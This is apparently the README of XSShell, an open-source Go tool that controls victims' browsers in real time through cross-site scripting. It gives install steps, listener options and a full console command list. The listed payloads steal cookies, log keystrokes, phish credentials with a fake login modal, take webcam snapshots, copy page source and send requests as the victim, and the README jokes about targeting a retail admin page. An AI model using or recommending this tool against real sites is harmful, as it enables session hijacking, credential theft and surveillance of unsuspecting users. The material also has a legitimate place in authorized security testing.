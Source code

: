 XSShell
=======

XSShell is a cross-site-scripting reverse shell... Okay, well maybe it's not a true reverse shell, but it will allow you to interact in real time with an XSS victim's browser.

Just run the xsshell binary to setup your listener endpoint, do your XSS thing to get the exploit js onto the victim's browser, and as soon as they run it you should see something like this popup in your console:

```
====== start socket: 1, header: AmaaKrM= ======
socket connected: 1
    user agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 Edge/17.17134 
    page url:   http://example.com/ 
    referrer:   http://google.com/
    cookies:    phpsessid=abababababababab
======   end socket: 1, header: AmaaKrM= ======
```

Once you have a connection you can execute any javascript file you want on the browser, and have that script return data to your console. This may not seem very useful at first, but it allows you to be more tactical and react in real time to the environment that the script is running on. Environments like say... an admin page used to approve and manage orders placed on a retail site :)

XSShell also comes with a number of premade XSS payloads to use:

- \alert - send a js alert message
- \cs    - get cookies and any updates to the cookies
- \gi    - download all images on the page
- \kl    - key logger
- \ll    - list all links on the page
- \src   - download the current page source
- \pfl   - show the user a modal and prompt them to login
- \xhr   - make xhr requests in the context of the victim's browser

Install
-------

To install xsshell run:
```bash
go get github.com/raz-varren/xsshell
go install github.com/raz-varren/xsshell
```

Mods
------

If you modify any of the JS files in this package, make sure you run:
```bash
go generate github.com/raz-varren/xsshell...
go install github.com/raz-varren/xsshell
```

This will ensure that the updated files are packed into the binary.

Usage
-----

The xsshell command:
```
xsshell -h
Usage of xsshell:
  -cert string
    	ssl cert file
  -host string
    	websocket listen address
  -key string
    	ssl key file
  -log string
    	specify a log file to log all console communication
  -path string
    	websocket connection path (default "/s")
  -port string
    	websocket listen port (default "8234")
  -servdir string
    	specify a directory to serve files from. a file server will not be started if no directory is specified
  -servpath string
    	specify the base url path that you want to serve files from (default "/static/")
  -wrkdir string
    	working directory that will be used as the relative root path for any commands requiring user provided file paths (default "./")
```

Starting the shell console:
```
xsshell 
listening for sockets on :8234, at url path: /s
starting console
type \? to list available commands
xsshell > \?
xsshell > \h \help \?: list available commands
xsshell > \alert:      send an alert message to the target set
xsshell >                  usage: \alert ALERT_MESSAGE
xsshell > \cs:         get the current cookies from the target set's current page and any cookie updates.
xsshell > \emd:        return a list of media devices accessible to the target set's browser
xsshell > \ex:         print out the client exploit javascript
xsshell > \exm:        print out the minified version of the client exploit javascript
xsshell > \gi:         download all images on the target set's page. 
xsshell >              images will be stored in DOWNLOAD_DIR. 
xsshell >              relative file paths are relative to the path provided to -wrkdir
xsshell >                  usage: \gi [DOWNLOAD_DIR]
xsshell >                  examples:
xsshell >                      \gi
xsshell >                      \gi /tmp/images
xsshell >                      \gi imgdir
xsshell > \kl:         start a keylogger on the target set
xsshell > \ll:         list out any links found on the target set's currently open page
xsshell > \pfl:        open a modal on the target set's page prompting them for a username and password
xsshell > \ps:         print out socket info for all actively connected websockets
xsshell > \q:          exit this program
xsshell > \sf:         send a javascript file to the target set and execute it. 
xsshell >              any data can be returned from the target set by calling `this.send(\"return data string\");` in the script. 
xsshell >              relative file paths are relative to the path provided to -wrkdir
xsshell >                  usage: \sf FILE_PATH
xsshell > \sfl:        resend the last file that was sent using \sf, includes any new changes to the file
xsshell > \src:        get the target set's currently rendered page source
xsshell > \st:         set the websockets to target. one or more targets can be set with the following methods:
xsshell >              *        -targets all active websocket connections (default target set)
xsshell >              8        -target a single websocket connection belonging to that id number
xsshell >              1,2,8,10 -targets all websocket IDs in the comma separated list
xsshell >              4-16     -targets all websocket IDs from the lowest number listed to the highest number listed
xsshell >              4-       -targets all websocket IDs that are greater than or equal to the listed number
xsshell >              -16      -targets all websocket IDs that are less than or equal to the listed number
xsshell >                  usage: \st TARGET_SET
xsshell >                  examples:
xsshell >                      \st *
xsshell >                      \st 2
xsshell >                      \st 2,4,7
xsshell >                      \st 10-15
xsshell >                      \st 6-
xsshell >                      \st -100
xsshell > \wcs:        attempt to take a snapshot from the target set's webcam, if one is available. 
xsshell >              images will be stored in DOWNLOAD_DIR. 
xsshell >              relative file paths are relative to the path provided to -wrkdir.
xsshell >              NOTE: using this command may prompt the target set for webcam access. 
xsshell >              the target set may reject the prompt, or ignore it entirely.
xsshell >                  usage: \ws [DOWNLOAD_DIR]
xsshell >                  examples:
xsshell >                      \wcs /tmp/webcam_snaps
xsshell >                      \wcs snaps
xsshell > \xhr:        send an xhr request from the target set's current page
xsshell >                  usage: \xhr HTTP_METHOD FULL_URL [CONTENT_HEADER] [POST_BODY]
xsshell >                  examples:
xsshell >                      \xhr GET https://google.com/
xsshell >                      \xhr POST https://google.com/ application/json {"hello": "world"}
xsshell >
```

